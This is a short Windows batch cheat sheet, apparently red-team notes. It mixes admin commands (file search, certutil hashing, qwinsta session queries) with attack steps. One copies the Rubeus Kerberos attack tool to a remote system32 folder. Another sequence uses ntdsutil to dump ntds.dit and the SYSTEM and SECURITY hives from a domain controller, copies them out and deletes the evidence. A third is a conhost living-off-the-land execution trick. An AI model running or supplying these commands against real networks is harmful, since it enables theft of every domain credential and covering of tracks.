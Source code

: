 # Copy files between systems
```batchfile
xcopy "C:\Rubeus.exe" \\<computer>.<domain.local>\C$\Windows\system32\
```

# Dump ntds.dit on a domain controller
```batchfile
ntdsutil "ac i ntds" "ifm" "create full C:\Windows\Temp\xn--5o8hui" q q
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\Active Directory\ntds.dit" C:\<dc>\
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\registry\SYSTEM" C:\<dc>\
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\registry\SECURITY" C:\<dc>\
rmdir /S C:\Windows\Temp\xn--5o8hui\
```

# Run commands via [conhost](https://lolbas-project.github.io/lolbas/Binaries/Conhost/)
```batchfile
conhost cmd.exe
```

# Find files or directories
```batchfile
dir "C:\Users\*.txt" /s
```

# Merge two binary files
```batchfile
copy /b cmd.exe+calc.exe new_cmd.exe
```

# Get hash of a file
```batchfile
certutil -hashfile C:\Windows\System32\cmd.exe SHA256
```

# [Displays the device join status](https://learn.microsoft.com/en-us/azure/active-directory/devices/faq#how-do-i-know-what-the-device-registration-state-of-the-client-is)
```batchfile
dsregcmd.exe /status
```
# Get a list of logged user sessions from a remote computer
## qwinsta
```batchfile
qwinsta /server:STBAP455FP
```

## query
```batchfile
query user /server:STBAP455FP
```
